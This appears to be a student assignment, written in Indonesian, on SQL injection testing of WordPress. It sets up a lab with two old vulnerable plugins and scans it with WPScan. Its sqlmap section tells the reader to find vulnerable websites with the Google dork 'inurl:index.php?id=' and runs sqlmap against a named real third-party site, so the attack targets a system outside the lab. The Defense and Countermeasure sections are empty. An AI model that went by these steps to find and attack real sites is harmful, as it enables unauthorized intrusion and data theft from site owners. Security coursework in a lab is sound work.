 ## Tugas 2

### Pendahuluan
Pada Tugas 2 kami akan mencoba penetrasi aplikasi web berbasis wordpress dengan memanfaatkan beberapa plugin yang vulnerable atau berpotensi untuk diserang dengan teknik SQL Injection. Dalam percobaan yang kami lakukan kami menggunakan beberapa tool untuk mencoba SQL Injection.

### Dasar Teori
#### SQL Injection
SQL Injection merupakan teknik mengeksploitasi aplikasi web yang didalamnya menggunakan database untuk penyimpanan data.  Aksi hacking / attacking dengan SQL injection dapat dilakukan pada aplikasi client ketika ketika masukan pengguna tidak disaring secara benar dari karakter-karakter pelolos bentukan string yang diimbuhkan dalam pernyataan SQL atau masukan pengguna tidak bertipe kuat dan karenanya dijalankan tidak sesuai harapan.

#### Ubuntu Server
#### Wordpress
#### SqlMap
#### WPScan

### Uji Penetrasi
#### install apache2
```bash
sudo apt-get install apache2 apache2-utils
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### install mysql
```bash
sudo apt-get install mysql-client mysql-server
sudo mysql-secure-isntallation
```

#### install php and modules
```bash
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
sudo nano /var/www/html/info.php buat ngetes
```

#### install wordpress cms
```bash
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

```bash
sudo rsync -av wordpress/* /var/www/html/
```

```bash
sudo chown -R www-data:www-data /var/www/html/
$ sudo chmod -R 755 /var/www/html/
```

#### create wordpress database

```bash
mysql -u root -p
mysql> CREATE DATABASE wp_myblog;
mysql> GRANT ALL PRIVILEGES ON wp_myblog.* TO 'your_username_here'@'localhost' IDENTIFIED BY 'your_chosen_password_here';
mysql> FLUSH PRIVILEGES;
mysql> EXIT;

sudo mv wp-config-sample.php wp-config.php
```
ubah wp-config.php sesuai database
```bash
sudo systemctl restart apache2.service 
sudo systemctl restart mysql.service 
```
buka localhost/wp-admin/setup-config.php
buat user
login

#### install plugin
```bash
cd /var/www/html/wp-content/plugins
sudo wget -c https://downloads.wordpress.org/plugin/player.1.5.16.zip
sudo wget -c https://downloads.wordpress.org/plugin/leaguemanager.3.9.1.1.zip

sudo apt-get install unzip

sudo unzip player.1.5.16.zip
sudo unzip leaguemanager.3.9.1.1.zip
```

buka halaman wordpressnya, login
pilih plugins, installed plugins
aktifkan plugins yang sudah diinstall

#### WPSCAN
Install file yang dibutuhkan
```bash
sudo apt-get install git
sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev
```

Clone git project wpscan
```bash
git clone https://github.com/wpscanteam/wpscan.git
cd wpscan
sudo gem install bundler && bundle install --without test development
```

Jalankan menggunakan ruby
```bash
unzip data.zip
ruby wpscan.rb -u 192.168.56.103 --enumerate vp
```
#### SQLmap
Clone git project sqlmap
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Cari website yang vulnerable melalui google dengan cara
```bash
inurl:index.php?id=
```

Jalankan sqlmap menggunakan python
```bash
cd sqlmap
python sqlmap.py -u 'http://www.icdcprague.org/index.php?id=10'
```

### Kesimpulan

#### Defense

#### Countermeasure